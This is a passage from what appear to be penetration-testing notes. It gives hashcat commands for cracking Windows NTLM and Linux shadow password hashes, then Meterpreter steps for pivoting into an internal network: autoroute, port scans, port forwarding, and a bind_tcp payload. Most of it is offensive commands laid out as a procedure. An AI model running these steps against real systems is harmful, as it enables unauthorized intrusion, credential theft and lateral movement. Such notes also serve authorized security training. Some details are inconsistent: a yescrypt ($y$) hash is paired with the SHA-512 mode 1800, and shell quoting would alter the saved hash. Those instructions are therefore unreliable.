 Administrator:500:aad3b435b51404eeaad3b435b51404ee:**31d6cfe0d16ae931b73c59d7e0c089c0**:::

    > echo "31d6cfe0d16ae931b73c59d7e0c089c0" > hash.txt

For dictionary attack:

    > hashcat -a 0 -m 1000 hash.txt /path/to/dictionary.txt

## Linux

Use hashdump from meterpreter session, or look inside /etc/shadow file.

The number between dollar signs inficates a type of hashing algorythm. For example 6 means it's SHA-512.

The next part is the SALT (also between dolar signs).

Save the hash into the text file:

    > echo "$y$j9T$TANXgpk59y8r3jgPbDl/w/$UqiK6yahwqfyqhcegWLa1.z64TyePP5.VQpUnLqI3VD:19023:0:99999:7::"> hash.txt

For dictionary attack:

    > hashcat -a 0 -m 1800 hash.txt /path/to/dictionary.txt

# Pivoting

In meterpreter session:

    > run autoroute -s <subnet, for example 10.0.29.0/20>

Show active routing table:

    > run autoroute -p

Put the meterpreter session in the background:

    > background

Then use portscan:

    > use auxiliary/scanner/portscan/tcp

    > set RHOSTS <ipAddressOfPivotedNetwork>

    > run

Go back to previous session and forward port:

    > portfwd add -l 1234 -p 80 -r <ipAddressOfPivotedNetwork>

Then scan with nmap service on port 1234:

    > nmap localhost -sV -p 1234

After that look for any exploit...

Important to set payload to bind:

    > set payload windows/meterpreter/bind_tcp
